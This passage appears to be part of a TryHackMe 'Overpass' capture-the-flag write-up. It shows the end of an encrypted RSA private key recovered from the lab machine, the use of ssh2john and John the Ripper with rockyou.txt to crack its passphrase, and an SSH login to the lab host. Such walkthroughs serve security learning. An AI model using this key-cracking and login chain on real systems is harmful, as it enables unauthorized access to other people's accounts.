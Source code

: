 ```sh
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----</pre>
        </div>
    </div>

```

## Exploitation

I went on the crack the ssh private key to get the passphrase

```console
~/Documents/tryhackme/overpass-series/1 ❯ python /usr/share/john/ssh2john.py id_rsa_james > id_rsa_james.hash
~/Documents/tryhackme/overpass-series/1 ❯ john --wordlist=/usr/share/wordlists/rockyou.txt --format=ssh id_rsa_james.hash | tee james-key
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Will run 3 OpenMP threads
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa_james)
1g 0:00:00:04 DONE (2021-02-09 14:55) 0.2183g/s 3131Kp/s 3131Kc/s 3131KC/s     1990..*7¡Vamos!
Session completed
```

I then logged in to the machine via ssh with the credentials

```console
~/Documents/tryhackme/overpass-series/1 ❯ ssh -i id_rsa_james james@10.10.204.45
The authenticity of host '10.10.204.45 (10.10.204.45)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.204.45' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa_james':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb  9 13:59:46 UTC 2021

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.204.45
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ uname -a; w; id
```